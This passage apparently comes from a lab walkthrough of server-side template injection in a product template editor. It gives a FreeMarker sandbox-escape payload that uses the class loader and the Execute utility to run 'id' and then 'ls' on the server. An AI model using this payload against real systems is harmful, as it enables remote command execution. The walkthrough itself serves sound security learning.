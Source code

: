 **Step2:**

Go to product and  then edit template

<img src="images/image29.jpg" alt="third" width="500">

**Step3:**

Try using simple tempelate:

**Step4:**
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

Here we can see payload for sand box environment for free maker
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

Change aritcle to product and instead of id I want to print item using ls
```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls")}
```
